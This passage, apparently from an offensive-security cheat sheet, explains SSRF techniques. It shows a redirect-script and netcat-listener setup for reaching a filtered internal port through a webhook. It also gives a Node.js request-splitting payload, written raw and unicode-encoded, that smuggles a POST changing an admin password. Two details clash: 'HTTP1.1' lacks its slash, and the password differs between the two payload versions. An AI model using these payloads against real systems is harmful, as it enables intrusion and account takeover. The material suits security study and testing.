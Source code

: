 After creating, run the following command.  
Assume that the filtered port is 3000 (nmap will reveal it).

```sh
python3 redirect.py http://127.0.0.1:3000
```

And start listener for receiving the POST request of the webhook from the target website.

```sh
nc -lvnp 4444
```

Now set the configuration of the webhook. For example:

```txt
Payload URL: http://<local-ip>:4444/
Monitored URL: http://<local-ip>:8000/
```

You can see the contents of the filtered app.

<br />

## Request Splitting

Reference: [https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)

It is the vulnerability of the Node.js **`http.get`** module, which allows attacker to insert HTTP headers and bodies by splitting request.  
First off, prepare HTTP headers and body as below:

```html
HTTP/1.1

POST /update HTTP1.1
Content-Length: 28

username=admin&password=newpass

GET
```

Then manipulate it for sending to target.

```bash
# \u0120: space
# \u010D: \r
# \u010A: \n
?url=http://example.com\u0120HTTP/1.1\u010D\u010APOST\u0120/update\u0120HTTP/1.1\u010D\u010AContent-Length:\u012028\u010D\u010A\u010D\u010Ausername=admin&password=pass\u010D\u010A\u010D\u010AGET\u0120
```
